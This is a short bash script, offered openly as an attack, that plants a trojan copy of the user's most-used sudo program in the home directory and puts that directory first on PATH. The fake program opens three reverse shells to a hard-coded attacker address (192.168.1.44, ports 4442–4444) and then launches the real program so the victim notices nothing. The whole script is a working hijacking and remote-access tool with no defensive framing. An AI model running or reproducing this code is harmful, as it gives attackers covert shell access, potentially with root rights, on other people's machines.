 #!/bin/bash
# find most common app used with sudo
common=`history | grep sudo | awk '{print $2, $3}' | sort | uniq -c | sort -nr | awk '{print $3}' | awk '(NR>=0 && NR<=11){print} (NR==1){exit}'`
location=`whereis $common | awk '{print $2}'`

# create malicious app
cat << EOF > $HOME/$common
#!/bin/bash
# open reverse shell 
# change IP and Port to your attack machine settings
bash -i >& /dev/tcp/192.168.1.44/4444 0>&1 2>&1 &
exec 196<>/dev/tcp/192.168.1.44/4443; sh <&196 >&196 2>&196 &
/bin/bash -l > /dev/tcp/192.168.1.44/4442 0<&1 2>&1 &
# open original program to prevent suspicion 
$location $1 $2 $3 $4 $5 $6 $7 $8 $9
EOF

# make new app executable
chmod 777 $HOME/$common

# add HOME directory to the PATH
export PATH=$HOME:$PATH
